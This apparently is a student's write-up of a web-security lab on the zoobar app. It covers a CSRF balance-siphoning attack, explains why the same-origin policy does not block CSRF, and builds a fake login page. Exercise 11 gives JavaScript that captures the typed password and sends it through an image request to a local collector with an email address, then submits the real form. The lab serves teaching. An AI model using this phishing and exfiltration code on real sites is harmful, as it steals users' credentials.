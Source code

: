 2. Account balance has been siphoned
![](https://i.imgur.com/Ytb9K9f.png)


**Why CSRF still works in SOP**
CSRF is not stopped by Single Origin Policy. This is so as SOP is a protection mechanism for the browser. Both CORS and SOP only prevents a page from rendering results from a server, and only a selective number of requests (`XMLHTTPRequests`) from the browser will undergo pre-flight requests where a request is rejected at the browser/client level. In our case, the request is being sent via a URL encoded form through the POST method is not part of this list of requests. This will hence not require a pre-flight request, thus, the request is allowed to proceed. 
We do note however that the response will not be rendered due to the SOP, but still, the request has successfully reached the backend server and applied as the server has no checks on the request (ie; via referrer header), thus making our attack effective and successful.
    



## Part C: Fake Login Page

### Exercise 9
In exercise 9, we simply copy over the form element directly from the page, and ensure that we set the submission action to be towards `http://localhost:8080/zoobar/index.cgi/login` as specified in the handout.
![](https://i.imgur.com/TE1ZQLt.png)
**After submission:**
![](https://i.imgur.com/ipdJuMD.png)


### Exercise 10
In this part, we will return an alert with the password upon submission. This is done via the `onSubmit` handler method on the form, which is triggered when form submission takes place. In this case, the event handler is set to execute the `malicousSubmit()` method we created below. 


```javascript=
function maliciousSubmit(e) {
        alert("password: " + document.getElementsByName('login_password')[0].value)
      }
```

The password is acheived form the document, via a DOM query on the name `login_password` name. 


![](https://i.imgur.com/5lEZ7id.png)


### Exercise 11

In exercise 11, we tweak our code slightly to trigger an email send, instead of having the alert. Here, we changed the `maliciousSubmit()` function as such:

```javascript=

function maliciousSubmit(event) {
      event.preventDefault()
      function execEmail() {
        (new Image()).src='http://127.0.0.1:8000?' + 'to=nogipa5665@alltekia.com' + '&payload=' + encodeURIComponent(document.getElementsByName('login_password')[0].value)+ '&random=' + Math.random()

      }
      execEmail()

      setTimeout(function (){
        var formContext = document.getElementsByName("loginform")[0]
        formContext.submit()
      }, 2000)
```